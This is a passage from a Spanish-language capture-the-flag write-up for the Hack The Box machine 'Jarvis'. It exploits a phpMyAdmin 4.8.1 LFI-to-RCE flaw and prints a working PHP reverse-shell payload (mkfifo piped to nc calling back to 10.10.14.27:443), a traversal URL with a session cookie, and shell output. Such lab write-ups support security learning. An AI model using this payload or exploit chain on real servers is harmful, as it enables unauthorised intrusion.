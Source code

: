 Vemos 2 los cuales parte de un LFI para obtener RCE y de una manera mejor explicada, podemos consultar el recurso [Vulnspy](https://www.vulnspy.com/phpmyadmin-4.8.1/) en donde nos indica que primero debemos contar con credenciales de acceso (ya las tenemos), después realizar la consulta SQL en donde vamos a insertar código php (en el ejemplo se pone `select '<?php phpinfo();exit;?>'`) en donde pondremos nuestro código malicioso; posteriormente consultamos una sesión generada a partir de la consulta utilizando el valor de la cookie **phpMyAdmin** (en el ejemplo nos indica que la ruta es `/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_[el_valor_de_la_cookie]`). Siguiendo dichos pasos, logramos ser el `phpinfo()`, por lo tanto ahora debemos entablarnos una reverse shell para ganar acceso a la máquina (**Nota**: Si tratamos de hacer lo indicado con el comando `phpinfo()`, es necesario salir de la sesión y volver a entrar al panel de login).

- Generamos nuestra reverse shell: `<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f");exit;?>`.
- Nos ponemos en escucha por el puerto 443: `nc -nlvp 443`
- Con el plugin **Edit this cookie** obtenemos nuestra cookie para el campo **phpMyAdmin**: glpacrhpqr2ancitvpu72p59j1jkljoc
- Ahora accedemos al siguiente recurso: **10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_glpacrhpqr2ancitvpu72p59j1jkljoc**

![](/assets/images/htb-jarvis/jarvis-cookie.png)

```bash
 ❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.143] 39822
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
